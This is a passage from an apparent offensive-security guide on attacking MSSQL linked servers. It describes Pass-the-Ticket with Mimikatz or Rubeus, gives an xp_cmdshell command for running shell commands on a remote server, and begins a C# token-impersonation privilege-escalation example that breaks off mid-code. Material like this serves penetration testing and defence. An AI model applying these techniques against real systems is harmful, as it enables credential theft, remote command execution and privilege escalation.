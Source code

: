 **Pass-the-Ticket**: 
- If you can access a system with linked server access and you have a valid Kerberos ticket (TGT or service ticket), you could pass that ticket to access the linked server without needing a password.

**Example Pass-the-Ticket Attack with Linked Servers**:
1. Capture the Kerberos ticket from memory using tools like `Mimikatz` or `Rubeus`.
2. Import the ticket on your local machine using `klist` or similar tools.
3. Use the ticket to authenticate against the linked server.

##### **7. Abusing xp_cmdshell via Linked Servers**

If `xp_cmdshell` is enabled on the remote server (or can be enabled by the attacker), it's possible to execute shell commands on the remote server.

**Example of Executing Shell Commands**:
```sql
EXEC ('EXEC xp_cmdshell ''whoami''') AT [RemoteServerName];
```

To demonstrate privilege escalation using token impersonation in conjunction with MSSQL in C# or C++, here's an overview:

1. **MSSQL Access**: The code connects to an MSSQL server using a lower-privileged user account.
2. **Token Impersonation**: The code then leverages a technique to impersonate a token with higher privileges.

The focus will be on using the C# example with MSSQL, then showing how token impersonation might occur.

### C# Example

#### Prerequisites

- Ensure you have references to `System.Data.SqlClient` or `Microsoft.Data.SqlClient` for MSSQL connections.
- The code uses P/Invoke to call native Windows API functions necessary for token manipulation.

#### **C# Code Example: Connecting to MSSQL and Token Impersonation**

```csharp
using System;
using System.Data.SqlClient;
using System.Runtime.InteropServices;
using System.Security.Principal;
using System.Diagnostics;

namespace TokenImpersonationExample
{
    class Program
    {
        // P/Invoke declarations
        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool DuplicateToken(IntPtr ExistingTokenHandle, int SECURITY_IMPERSONATION_LEVEL, out IntPtr DuplicateTokenHandle);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        public static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool CloseHandle(IntPtr hObject);

        // Access rights
        const uint TOKEN_QUERY = 0x0008;
```